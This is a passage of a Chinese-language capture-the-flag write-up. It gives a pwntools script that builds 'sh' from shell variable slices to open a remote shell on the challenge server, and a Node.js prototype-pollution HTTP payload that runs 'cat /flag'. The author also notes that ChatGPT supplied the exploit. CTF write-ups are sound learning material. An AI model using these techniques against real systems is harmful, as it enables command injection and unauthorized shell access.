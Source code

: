 ```
$[] = 0
$$ = 7
$_ = input
$- = hB
~ = /players
```

然后...我就卡了。当时没有理解 `eval $input` 的意思，所以完全没有往字符串拼接的方向去想。  
最终是在一次手贱的过程中把两个部分打在一起了，发现 `$-$[] = hB0`，于是打开了新世界的大门(x)  
火速[去问了 ChatGPT](https://chatgpt.com/share/672fbd1a-141c-800d-ae5f-b40192319782)，发现可以直接拼出 `sh`，那接下来不就为所欲为了？

```python
from pwn import *
import os


def write_line(line):
    print(f"sending {line}")
    r.recvuntil(b"> ")
    r.sendline(line.encode())
    print(r.recvline().decode())

r = remote("202.38.93.141", 12554)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

write_line("__=~")                  # /players
write_line("___=$-")                # hB
write_line("${__:7:1}${___:$[]:1}") # sh
r.interactive()                     # enter cat /flag
```

**`flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_f7f66e3101}`**


## Node.js is Web Scale

> ChatGPT Is All You Need for Web

说实话这道题我现在都不知道怎么做出来的(?)

题目只给了一个源代码文件，于是直接[扔给 ChatGPT 找漏洞](https://chatgpt.com/share/672eeb5e-8724-800d-b16c-db2e8606d860) 。  
ChatGPT 上来就是一个 Prototype Pollution，然后扔给我一个 payload。传上去就直接能看到 flag 了。

```http
POST /set HTTP/1.1
Content-Type: application/json

{
  "key": "__proto__.exploit",
  "value": "cat /flag"
}

GET /execute?cmd=exploit HTTP/1.1
```
